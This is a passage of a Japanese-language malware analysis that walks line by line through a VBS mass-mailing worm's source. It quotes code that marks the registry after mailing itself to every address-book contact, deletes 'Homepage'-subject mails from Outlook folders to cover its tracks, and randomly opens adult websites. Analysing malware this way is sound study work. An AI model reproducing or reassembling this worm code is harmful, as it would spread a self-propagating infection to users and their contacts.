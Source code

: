 　65:66:で添付ファイルを設定しています。この添付ファイルは以前tempフォル
ダ以下にコピーしたファイルですね。67:は送信した後にこのメール自体を削除す
るという命令でしょう。いやはや徹底してますね。そして68:で送信先アドレスが
記入されてるかを確認し、69:で送信しています。

70: WS.regwrite "HKCU\software\An\mailed", "1"
71: End If
72: Next
73: End If
74: Next
75: End if
76: End Function

　70:でレジストリを書き換えてます。つまり二度目にこのプログラムが実行され
るときはもうメールを送信（ばら撒く？）しなくてもいいですよ。ということで
しょう。なかなか良心的なウイルスです。(ぉぃ

　Mailit()全体の処理は登録されているメールアドレスすべてにウイルスメール
を送信するということです。ここは結構お決まりなパターンでどのVBSウイルスに
もついてる機能です（笑

　ではまた関数の呼び出し元に戻りましょう。

20: Set s=CreateObject("Outlook.Application")
21: Set t=s.GetNameSpace("MAPI")
22: Set u=t.GetDefaultFolder(6)

　GetDefaultFolderは引数0 予定表、1 受信トレイ、2 送信トレイ、3 送信済み
アイテム、4 削除済みアイテム、5 連絡先、6 履歴、7 メモ、8 タスク、ですの
で、履歴フォルダを取得ですね。

23: For i=1 to u.items.count
24: If u.Items.Item(i).subject="Homepage" Then
25: u.Items.Item(i).close
26: u.Items.Item(i).delete
27: End If
28: Next

　履歴フォルダの中にあるメールでsubject="Homepage"なものは削除するという
処理です。

29: Set u=t.GetDefaultFolder(3)
30: For i=1 to u.items.count
31: If u.Items.Item(i).subject="Homepage" Then
32: u.Items.Item(i).delete
33: End If
34: Next

　送信済みアイテムの中でも同じことをやっています。送信済みアイテムの中に
あるメールでsubject="Homepage"なものは削除するという処理です。

36: Randomize
37: r=Int((4*Rnd)+1)
38: If r=1 then
39: WS.Run("http://hardcore.pornbillboard.net/shannon/1.htm")
40: elseif r=2 Then
41: WS.Run("http://members.nbci.com/_XMCM/prinzje/1.htm")
42: elseif r=3 Then
43: WS.Run("http://www2.sexcropolis.com/amateur/sheila/1.htm")
44: ElseIf r=4 Then
45: WS.Run("http://sheila.issexy.tv/1.htm")
46: End If
